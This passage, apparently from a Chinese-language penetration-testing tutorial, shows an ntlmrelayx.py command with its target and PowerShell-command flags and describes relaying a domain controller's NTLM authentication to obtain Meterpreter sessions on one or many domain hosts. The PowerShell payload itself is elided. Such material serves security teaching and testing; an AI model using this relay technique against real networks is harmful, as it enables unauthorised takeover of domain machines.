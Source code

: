 ```plain
./ntlmrelayx.py -t ip -c "xxxxxxxxx" -smb2support

#参数说明：
-t : 单一主机
-tf: 主机文件列表，例如:ip.txt
-c : powershell 命令
```

[![](assets/1701222524-63fc6eda1b83be0d2f1e8cd405353176.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144906-39678f24-8dba-1.png)  
Step 4：当域控发起请求时，通过 NTLM 中继，我们可以成功获取到目标主机的 Meterpreter 会话，如果我们将之前的参数"-t"改为"-tf"，即可获取 ip.txt 文件中的所有域内主机的 Meterpreter 会话  
[![](assets/1701222524-351dbfc28515fd25bb0c14ece3e6f728.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144924-44251b84-8dba-1.png)

### NTLM 中继
